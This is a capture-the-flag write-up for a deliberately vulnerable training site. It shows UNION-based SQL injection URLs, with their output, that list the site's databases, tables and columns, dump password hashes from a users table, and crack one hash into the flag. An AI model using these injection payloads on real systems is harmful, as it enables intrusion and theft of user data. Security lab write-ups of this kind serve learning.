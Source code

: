 # Sql_Injection_basic

The GET parameter in the member search form is vulnerable to sql Sql_Injection_basic

## Method

Go to the member search page (<http://192.168.1.102/?page=member>)
In the search field search '1 and 1 = 1' (which shows you that the form is vulnerable)

## Manipulation

getting current database name and listing all databases:
http://192.168.1.102/?page=member&id=42 union select database(), schema_name from information_schema.schemata&Submit=Submit

result:
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : information_schema
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_survey

which shows that the current database is Member_Sql_Injection, the other databases are Member_Brute_Force, Member_guestbook, Member_images, Member_survey

getting a list of tables in current database:
http://192.168.1.102/?page=member&id=42 union select table_name, create_time from information_schema.tables where table_schema=database()&Submit=Submit

result:
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database()
First name: users
Surname : 2015-09-16 15:55:03

which shows that the database has a table called users

listing all column names and types:
http://192.168.1.102/?page=member&id=42 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit

result:
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: countersign
Surname : varchar(255)

which shows that we have the columns user_id, first_name, last_name, town, country, planet, Commentaire, countersign

getting the password information:
http://192.168.1.102/?page=member&id=42 union select Commentaire, countersign from users&Submit=Submit

result:
ID: 42 union select Commentaire, countersign from users
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

You can see that it gives us this helpful part that says Decrypt this password -> then lower all the char. Sh256 on it and it's good
We then follow this instruction to get the flag we need.

## How to get the flag

Decode the hash 5ff9d0165b4f92b14994e5c685cdce28 using the md5.gromweb.com website.
Which gives us the original string "FortyTwo"
lower all characters and as per the instructions Sh256 of fortytwo is 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
We now have the flag (10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5)